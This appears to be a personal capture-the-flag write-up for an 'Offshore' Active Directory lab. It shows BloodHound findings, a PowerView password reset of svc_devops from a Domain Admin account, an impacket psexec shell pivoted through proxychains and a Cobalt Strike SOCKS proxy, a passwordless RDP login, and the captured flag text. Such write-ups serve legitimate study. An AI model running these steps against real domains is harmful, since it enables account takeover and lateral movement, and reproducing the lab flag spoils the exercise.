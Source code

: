 # My unintended path

start at [[Whats the worst that could happen]] check point on `DC01.corp.local`
![[Pasted image 20240110231101.png]]
Utilized [[DC01 Domain bloodhound dump]] to get an idea of the next network.
![[Pasted image 20240110230802.png]]

utilizing `Bloodhound` revealed that `SVC_DEVOPS@CORP.LOCAL` is a local administrator on `WS03.DEV.ADMIN.OFFSHORE.COM` and also a part of `CORP.LOCAL` which we have `DA` for with the `IAMTHEADMINISTRATOR` account 
![[Pasted image 20240109151142.png]]
![[Pasted image 20240109151253.png]]
utilize these commands to change the password of `svc_devops` while being the `Domain Admin` account `corp\iamtheadministrator`
```powershell
$cred = ConvertTo-SecureString "bugsy_P4ss" -AsPlainText -force
Set-DomainUserPassword -identity svc_devops -accountpassword $cred
```
![[Pasted image 20240109164514.png]]
run `crackmapexec` to ensure that the password was changed
![[Pasted image 20240109164544.png]]
setup `SOCKS5` proxy pivot on `DC01` through a cobaltstrike beacon
![[Pasted image 20240109164629.png]]
`psexec'd` onto `ws03
this shell is very very slow due to going through proxychains
```powershell
┌──(root💀gobots)-[09Jan2024 18:50:11]-[/usr/share/windows-resources/powersploit/Recon]
└─# proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py CORP.LOCAL/svc_devops@172.16.2.102
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
Impacket v0.11.0 - Copyright 2023 Fortra

Password: bugsy_P4ss
[*] Requesting shares on 172.16.2.102.....
[*] Found writable share ADMIN$
[*] Uploading file fOqHJdQp.exe
[*] Opening SVCManager on 172.16.2.102.....
[*] Creating service KWDU on 172.16.2.102.....
[*] Starting service KWDU.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> 
```
navigate to `c:\users\administrator\Desktop` to grab flag
```powershell
c:\Users\administrator\Desktop> dir                                                                                                                                                                         
 Volume in drive C has no label.                                                                                                                                                                            
 Volume Serial Number is A39E-D5A7                                                                                                                                                                          

 Directory of c:\Users\administrator\Desktop                                                                                                                                                                

04/29/2018  02:22 AM    <DIR>          .                                                                                                                                                                    
04/29/2018  02:22 AM    <DIR>          ..                                                                                                                                                                   
04/29/2018  02:23 AM                36 flag.txt                                                                                                                                                             
               1 File(s)             36 bytes                                                                                                                                                               
               2 Dir(s)  18,295,459,840 bytes free                                                                                                                                                          
 
c:\Users\administrator\Desktop> type flag.txt                                                                                                                                                               
OFFSHORE{ACL_@bus3_0ft3n_ov3rl00k3d} 
```


# Intended Path
looking in blood hound you identify that `JOE@DEV.ADMIN.OFFSHORE.COM` is a `local admin` to `WS03`
![[Pasted image 20240110234505.png]]
you can see that `joe` is able to rdp in.
![[Pasted image 20240110234531.png]]
you see that a password is not required for `joe`
![[Pasted image 20240110234608.png]]
you `proxychains rdesktop -u joe -d dev.admin.offshore.com 172.16.2.102` into a session that makes you want to cry
![[Pasted image 20240110234723.png]]
you `please wait` 
![[Pasted image 20240110234749.png]]
you click on `dev.admin.offshore.com\joe` or other user to login as joe with no password
![[Pasted image 20240110234952.png]]
it says `welcome` for 3 minutes  ( you dont feel welcome at all )
![[Pasted image 20240110235159.png]]
you find elwoods stuff upon opening and proceed to get a cobalt strike beacon to grab the first flag `headed down another path`

